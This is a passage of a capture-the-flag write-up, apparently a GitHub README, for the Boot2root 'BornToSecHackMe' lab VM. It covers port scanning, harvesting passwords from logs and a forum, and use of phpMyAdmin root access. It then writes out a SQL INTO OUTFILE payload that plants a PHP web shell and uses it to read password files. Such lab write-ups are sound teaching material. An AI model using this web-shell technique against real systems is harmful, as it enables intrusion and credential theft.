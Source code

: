 # Method 1

## FIND VMs ID

Let's configure 'virtual host adapter (192.168.56.1/24)' network to our VM and find it's IP.

```bash
MacBook-Pro-admin:~ avdementev$ nmap 192.168.56.1-255
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-09 00:09 MSK
Nmap scan report for 192.168.56.1
Host is up (0.00010s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
111/tcp  open  rpcbind
999/tcp  open  garcon
1021/tcp open  exp1
1023/tcp open  netvenuechat
2049/tcp open  nfs

Nmap scan report for 192.168.56.100
Host is up (0.00038s latency).
All 1000 scanned ports on 192.168.56.100 are closed

Nmap scan report for 192.168.56.101
Host is up (0.00068s latency).
Not shown: 994 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

Nmap done: 255 IP addresses (3 hosts up) scanned in 81.90 seconds
```

The result IP will be like 192.168.56.x (In this case - 192.168.56.100)

## Scan 80 and 443
Let's open http://192.168.56.100
(TODO: add 1.png)

We will use penteesting tools like Burp Suite or dirb.
```bash
TODO: burp example
```

## FORUM - Probleme login ?

```
....
....
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
```
!q\]Ej?*5K5cy*AJ - PASSWORD???
After some tries we got password for lmezards forum account
```
lmezard:!q\]Ej?*5K5cy*AJ
```
(TODO: add 2.png)

Lmezards mail is laurie@borntosec.net
Let's try to access to 192.168.56.x/forum with the same password

```
laurie@borntosec.net:!q\]Ej?*5K5cy*AJ
```

There is the message DB Access:

```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

Now we can to access 192.168.56.x/phpmyadmin
(TODO: add 4.png)

## Reverse Shell

The basic reverse shell injection looks litke this

```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/backdoor.php"
```
It does not work becouse permission denied.

But it works:
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile '/var/www/forum/templates_c/backdoor.php'
```

Now we can use this php like shell.

https://192.168.56.101/forum/templates_c/backdoor.php?cmd=ls%20/home
```
LOOKATME ft_root laurie laurie@borntosec.net lmezard thor zaz
```

https://192.168.56.101/forum/templates_c/backdoor.php?cmd=ls%20/home/LOOKATAME
```
password
```

https://192.168.56.101/forum/templates_c/backdoor.php?cmd=cat%20/home/LOOKATME/password
```
lmezard:G!@M6f4Eatau{sF"
```

And now we can to pass this data to ssh or ftp.
FTP is ok.
(TODO: add 5.png)

## Sort files (Lmezerd)

There are two files fun and README.md
```
MacBook-Pro-admin:lmezard avdementev$ cat README 
Complete this little challenge and use the result as password for user 'laurie' to login in ssh

MacBook-Pro-admin:lmezard avdementev$ file fun
fun: POSIX tar archive (GNU)
MacBook-Pro-admin:lmezard avdementev$ tar xvf fun
x ft_fun/
x ft_fun/C4D03.pcap
x ft_fun/GKGEP.pcap
..
x ft_fun/Y8S1M.pcap
MacBook-Pro-admin:lmezard avdementev$ ls -l ft_fun/ | wc -l
     751
MacBook-Pro-admin:lmezard avdementev$ 
```

There are 751 file with pieces of code... The solve program in lmezard folder.

We got password:
```
Iheartpwnage
sha256(Iheartpwnage) = 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

Let's connect to SSH:
```
laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

## Reverse program (laurie)

```
laurie@192.168.56.101's password:
laurie@BornToSecHackMe:~$ ls
bomb  README
laurie@BornToSecHackMe:~$ cat README
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```

Lets download bomb file and open it in IDA.

```
MacBook-Pro-admin:Boot2root avdementev$ scp laurie@192.168.56.101:/home/laurie/bomb ./laurie
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___ 
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__ 
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
laurie@192.168.56.101's password: 
bomb                                                                                                                                  100%   26KB  18.4MB/s   00:00  
```

### Phase1

![phase1](https://github.com/demsasha4yt/Boot2root/blob/master/laurie/phase_1.png)

### Phase2
![phase2](https://github.com/demsasha4yt/Boot2root/blob/master/laurie/phase_2.png)

### Phase3
![phase3](https://github.com/demsasha4yt/Boot2root/blob/master/laurie/phase_3.png)

### Phase4
![phase4](https://github.com/demsasha4yt/Boot2root/blob/master/laurie/phase_4.png)

### Phase5
![phase5](https://github.com/demsasha4yt/Boot2root/blob/master/laurie/phase_5.png)

### Phase6
![phase6_1](https://github.com/demsasha4yt/Boot2root/blob/master/laurie/phase_6_1.png)
![phase5](https://github.com/demsasha4yt/Boot2root/blob/master/laurie/phase_6_2.png)

## Torture (Thor)
